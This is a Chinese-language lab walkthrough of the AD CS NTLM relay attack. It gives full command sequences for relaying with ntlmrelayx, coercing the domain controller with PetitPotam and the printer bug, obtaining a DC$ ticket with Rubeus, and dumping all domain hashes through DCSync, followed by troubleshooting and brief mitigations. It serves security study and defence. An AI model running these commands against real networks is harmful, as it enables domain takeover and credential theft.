

## 原理
漏洞利用原因：
由于ADCS的http证书接口没有启用NTLM中继保护，因此其易受NTLM Relay攻击。而且Authorization HTTP 标头明确只允许通过 NTLM 身份验证，因此Kerberos协议无法使用。因此，攻击者可以利用NTLM Relay攻击ADCS证书服务。

## 攻击过程
+ 都是在域机器中操作的, 工作组中没试成功, 按理说工作组也可以
### 环境
| 机器 | ip | 说明 |
| ---- | ---- | ---- |
| dc | 192.168.1.110 | 域控 |
| ca2016 | 192.168.1.116 | 证书服务器 |
| kali | 192.168.1.114 | 中继服务器 |
| ca | 192.168.1.113 | 域内攻击机 |
### 确定证书服务器(域内攻击机)
```
certutil 
certutil -config - -ping
certutil  -ca
```

### 确定证书服务器是否开启NTLM认证
```shell
curl http://ca2016.shi.com/certsrv/ -I
```

### 开启中继(kali)
> 配置hosts或者指定IP
```
ntlmrelayx.py -debug -smb2support --target http://ca2016.shi.com/certsrv/certfnsh.asp  --adcs --template DomainController
```

### 强制域控认证(域内攻击机或者kali都行)
+ 域内攻击机
```
# 打印机bug
spoolsample.exe 192.168.1.110 192.168.1.114
//或者
python3 printerbug.py mark/hacker@dcip  kaliip

# EfsRpc
petitpotam.exe attackip dcip
//或者
python3 PetitPotam.py    kali ip   dc ip  
//或者mimikatz
misc::efs /server:域控IP /connect:kali
//powershell
Import-Module .\Invoke-Petitpotam.ps1
Invoke-Petitpotam -Target 域控IP -CaptureHost kali

```
### 获得证书(kali),请求TGT(域内攻击机)

+ kekeo
```
base64 /input:on
tgt::ask /pfx:获得的base64证书 /user:DC$  /ptt
```
+ rubeus:
```
//注入票据
Rubeus.exe asktgt /user:DC$ /certificate:获得的base64证书 /domain:shi.com /dc:10.10.10.130 /ptt
//或者导出票据(票据可以在非域内机器上使用)
Rubeus.exe asktgt /user:DC$ /certificate:获得的base64证书 /outfile:ticket.kirbi
```

### 查看票据
`klist`

### 使用票据
#### mimikatz.exe
```
#查看kerberos票据
kerberos::list

privilege::debug
#导出krbtgt用户的hash
lsadump::dcsync /user:krbtgt /csv /domain:shi.com /dc:10.10.10.130
#导出域管用户的hash
lsadump::dcsync /user:administrator /csv /domain:shi.com
#导出域内所有hash
lsadump::dcsync /all /csv /domain:shi.com
```
#### impacket
> 需要先将Rubeus导出的票据ticket.kirbi进行转换
```
python3 ticketConverter.py ticket.kirbi dc.ccache
export KRB5CCNAME=dc.ccache
//需要配置hosts  dc的IP
secretsdump.py -no-pass -k -dc-ip 192.168.1.110 -target-ip 192.168.1.110 dc
```

## 排错
### KRB-ERROR (62) : KDC_ERR_CLIENT_NOT_TRUSTED
感谢GentilKiwi的推文，我们可以通过在域控制器上运行以下内容来修复此问题。
https://twitter.com/gentilkiwi/status/1419772619004448770
`certutil -pulse`
### KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP
https://support.citrix.com/article/CTX218941
当您尚未将域控制器身份验证证书导入域控制器时，通常会出现此错误。Citrix在此详细介绍了此过程。
简而言之，进入您的DC并打开MMC。在MMC中，为计算机帐户添加证书加载项并请求域控制器身份验证证书。

解决方案
您需要在所有域控制器上拥有域控制器身份验证证书。要注册新证书，请按照以下步骤操作。
在域控制器上，打开 mmc。
单击文件，单击添加/删除管理单元。
选择证书，单击添加，然后选择计算机帐户。
展开证书（本地计算机），右键单击个人，单击所有任务，然后单击请求新证书。
按下一步。
选择域控制器身份验证并按注册。
注意：如果您在域控制器证书 mmc 中的 Auto Enrollment 上没有看到域控制器身份验证，则需要转到证书颁发机构服务器并将域控制器添加到域控制器身份验证模板的安全性中并授予 AutoEnroll 权限。

注意：如果您有多个域控制器，管理员需要确保为用户进行证书验证的 DC 应该在个人存储中具有域控制器身份验证证书。
+ 另一个解决方法
解决打开组策略，计算机配置\Windows 设置\安全设置\本地策略\安全选项，找到配置 Kerberos 允许的加密类型，将下面全部勾选即可(https://www.cnblogs.com/websecyw/p/15070423.html)

## 防御
 + 在 IIS 管理器->默认站点->certsrv 选项中启用需要 SSL
 + 启用扩展保护（在 certsrv->authentication 下）
 + 通过设置 certsrv->providers->negotiate:kerberos 在 ADCS 服务器上为 IIS 禁用 NTLM
https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429